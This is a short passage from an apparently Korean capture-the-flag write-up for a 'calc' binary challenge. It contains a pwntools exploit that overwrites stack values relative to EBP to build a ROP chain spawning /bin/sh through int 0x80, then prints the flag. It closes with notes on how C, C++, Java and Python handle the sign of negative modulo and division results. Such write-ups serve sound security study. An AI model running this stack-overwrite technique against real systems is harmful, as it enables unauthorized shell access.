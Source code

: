 ```
bin=0x6e69622f
sh=0x68732f

p.recvuntil("===\n")

ebp=get_ebp_val()
ebp= ebp -0x20

overw_ebp_plus_num(0x4,p_eax)
overw_ebp_plus_num(0x8,0xb)
overw_ebp_plus_num(0xc,p_edx_ecx_ebx)
overw_ebp_plus_num(0x10,null_sec)
overw_ebp_plus_num(0x14,null_sec)
overw_ebp_plus_num(0x18,ebp+0x20)
overw_ebp_plus_num(0x1c,int_80)
overw_ebp_plus_num(0x20,bin)
overw_ebp_plus_num(0x24,sh)

p.sendline("Exploit_calc")

p.interactive()
```

flag : FLAG{C:\Windows\System32\calc.exe}

# 알게 된 것
***
1. C 언어의 % 연산자에서 음수 처리는 다음과 같이 정의되어 있다. X % Y 를 연산할 때 그 연산 결과의 부호는 X 의 부호를 따라간다. 즉 Y의 부호는 무시되며 오직 X가 양수이면 결과는 양수, 음수이면 결과는 음수가 된다. <br/>
    ex) <br>
    	-5 % -2 = -1 <br>
	5 % -2 = 1 <br>
      	-5 % 2 = -1
2. c 언어, c++, java에서 음수의 나눗셈 처리를 할 때는 버림을 한다고 생각하면 된다. (0과 더 가까운 값으로 결정한다.) <br/>
    ex) <br>
    	-5 / 2 = -2 <br>
	5 / -2 = -2 <br>
	(python에서는 -3이 된다.)


참조 : <http://www.flowdas.com/blog/%EB%82%98%EB%88%97%EC%85%88-%EC%9D%B4%EC%95%BC%EA%B8%B0-2/>
